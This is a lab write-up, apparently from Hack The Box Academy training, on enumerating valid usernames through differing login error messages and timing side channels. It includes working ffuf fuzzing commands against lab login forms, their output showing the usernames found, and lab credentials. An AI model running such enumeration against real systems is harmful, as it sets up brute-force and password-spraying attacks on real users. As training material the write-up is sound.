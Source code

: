 ﻿User enumeration vulnerabilities arise when a web application responds differently to registered/valid and invalid inputs for authentication endpoints. User enumeration vulnerabilities frequently occur in functions based on the user's username, such as user login, user registration, and password reset.

Web developers frequently overlook user enumeration vectors, assuming that information such as usernames is not confidential. However, usernames can be considered confidential if they are the primary identifier required for authentication in web applications. Moreover, users tend to use the same username across various services other than web applications, including FTP, RDP, and SSH. Since many web applications allow us to identify usernames, we can enumerate valid usernames and use them for further attacks on authentication. This is often possible because web applications typically consider a username or user's email address as the primary identifier of users.

---

## User Enumeration Theory

Protection against username enumeration attacks can have an impact on user experience. A web application revealing whether a username exists may help a legitimate user identify that they failed to type their username correctly. Still, the same applies to an attacker trying to determine valid usernames. Even well-known and mature applications, like WordPress, allow for user enumeration by default. For instance, if we attempt to login to WordPress with an invalid username, we get the following error message:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/269/bf/01-wordpress_wrong_username.png)

On the other hand, a valid username results in a different error message:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/269/bf/02-wordpress_wrong_password.png)

As we can see, user enumeration can be a security risk that a web application deliberately accepts to provide a service. As another example, consider a chat application enabling users to chat with others. This application might provide a functionality to search for users by their username. While this functionality can be used to enumerate all users on the platform, it is also essential to the service provided by the web application. As such, user enumeration is not always a security vulnerability.Â Nevertheless, it should be avoidedÂ if possibleÂ as a defense-in-depth measure. For instance, in our example web application user enumeration can be avoided by not using the username during login but an email address instead.

---

## Enumerating Users via Differing Error Messages

To obtain a list of valid users, an attacker typically requires a wordlist of usernames to test. Usernames are often far less complicated than passwords. They rarely contain special characters when they are not email addresses. A list of common users allows an attacker to narrow the scope of a brute-force attack or carry out targeted attacks (leveraging OSINT) against support employees or users. Also, a common password could be easily sprayed against valid accounts, often leading to a successful account compromise. Further ways of harvesting usernames are crawling a web application or using public information, such as company profiles on social networks. A good starting point is the wordlist collectionÂ [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Usernames).Â 

When we attempt to log in to the lab with an invalid username such asÂ `abc`, we can see the following error message:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/269/bf/userenum_1.png)

On the other hand, when we attempt to log in with a registered user such asÂ `htb-stdnt`Â and an invalid password, we can see a different error:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/269/bf/userenum_2.png)

Let us exploit this difference in error messages returned and useÂ SecLists'sÂ wordlistÂ `xato-net-10-million-usernames.txt`Â to enumerate valid users withÂ `ffuf`. We can specify the wordlist with theÂ `-w`Â parameter, the POST data with theÂ `-d`Â parameter, and the keywordÂ `FUZZ`Â in the username to fuzz valid users. Finally, we can filter out invalid users by removing responses containing the stringÂ `Unknown user`:

```shell-session
smoothment@htb[/htb]$ ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"

<SNIP>

[Status: 200, Size: 3271, Words: 754, Lines: 103, Duration: 310ms]
    * FUZZ: consuelo
```

We successfully identified the valid usernameÂ `consuelo`.Â We couldÂ nowÂ proceed by attempting to brute-force the user's password, as we will discuss in the following section.

---

## User Enumeration via Side-Channel Attacks

While differences in the web application's response are the simplest and most obvious way to enumerate valid usernames, weÂ mightÂ alsoÂ be able toÂ enumerate valid usernames via side channels.Â Side-channel attacks do not directly target the web application's response but rather extra information that can be obtained or inferred from the response. An example of a side channel is the response timing, i.e., the time it takes for the web application's response to reach us. Suppose a web application does database lookups only for valid usernames.Â In that case, weÂ might be able toÂ measure a difference in the response time and enumerate valid usernames this way, even if the response is the same.Â User enumeration based on response timing is covered in theÂ [Whitebox Attacks](https://academy.hackthebox.com/module/details/205)Â module.

# Question
---

![Pasted image 20250214143442.png](../../../../IMAGES/Pasted%20image%2020250214143442.png)

We need to authenticate with the following credentials:

```ad-note
`htb-stdnt`:`Academy_student!`
```

Before doing that, let's fire up burp and check what happens if we enter a nonexistent user:

![Pasted image 20250214143851.png](../../../../IMAGES/Pasted%20image%2020250214143851.png)

We get `Unknown User`, which would be the error message in this case, how about if we try to authenticate with the provided username but a wrong password:

![Pasted image 20250214143942.png](../../../../IMAGES/Pasted%20image%2020250214143942.png)

Now we are getting something different, we get `Invalid Credentials`.

We can fuzz the usernames using `ffuf`, let's do the following command:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://IP:PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown user" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.248.78:36443/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown user" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.248.78:36443/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown user
________________________________________________

cookster                [Status: 200, Size: 3271, Words: 754, Lines: 103, Duration: 1311ms]
```

User is:

```
cookster
```

